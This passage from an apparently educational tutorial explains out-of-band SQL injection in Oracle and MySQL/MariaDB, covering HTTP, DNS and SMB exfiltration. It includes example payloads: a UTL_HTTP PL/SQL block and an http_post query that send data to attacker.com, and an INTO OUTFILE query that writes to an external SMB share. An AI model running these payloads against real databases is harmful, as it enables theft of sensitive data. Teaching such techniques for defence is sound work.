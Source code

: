 Alternatively,Â `OPENROWSET`Â orÂ `BULK INSERT`Â can be used to interact with external data sources, facilitating data exfiltration through OOB channels.  

**Oracle**  

In Oracle databases, Out-of-bandÂ SQLÂ injection can be executed using theÂ [UTL_HTTP](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html)Â orÂ [UTL_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html)Â packages. For instance, the UTL_HTTP package can be used to sendÂ HTTPÂ requests with sensitive data:

```php
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```

Examples of Out-of-band Techniques

Out-of-bandÂ SQLÂ injection techniques in MySQL and MariaDB can utilise various network protocols to exfiltrate data. The primary methods includeÂ DNSÂ exfiltration,Â HTTPÂ requests, andÂ SMBÂ shares. Each of these techniques can be applied depending on the capabilities of the MySQL/MariaDB environment and the network setup.  

**HTTPÂ Requests**  

By leveraging database functions that allowÂ HTTPÂ requests, attackers can send sensitive data directly to a web server they control. This method exploits database functionalities that can make outboundÂ HTTPÂ connections. Although MySQL and MariaDB do not natively supportÂ HTTPÂ requests, this can be done through external scripts or User Defined Functions (UDFs) if the database is configured to allow such operations.

First, the UDF needs to be created and installed to supportÂ HTTPÂ requests. This setup is complex and usually involves additional configuration. An example query would look likeÂ `SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`.

HTTPÂ request exfiltration can be implemented on Windows andÂ LinuxÂ (Ubuntu) systems, depending on the database's support for external scripts or UDFs that enableÂ HTTPÂ requests.

**DNSÂ Exfiltration**Â 

Attackers can useÂ SQLÂ queries to generateÂ DNSÂ requests with encoded data, which is sent to a maliciousÂ DNSÂ server controlled by the attacker. This technique bypassesÂ HTTP-based monitoring systems and leverages the database's ability to performÂ DNSÂ lookups.

As discussed above,Â MySQL does not natively support generatingÂ DNSÂ requests throughÂ SQLÂ commands alone, attackers might use other means such as custom User-Defined Functions (UDFs) or system-level scripts to performÂ DNSÂ lookups.

**SMBÂ Exfiltration**

SMBÂ exfiltration involves writing query results to anÂ SMBÂ share on an external server. This technique is particularly effective in Windows environments but can also be configured inÂ LinuxÂ systems with the right setup. an example query would look likeÂ `SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';`.
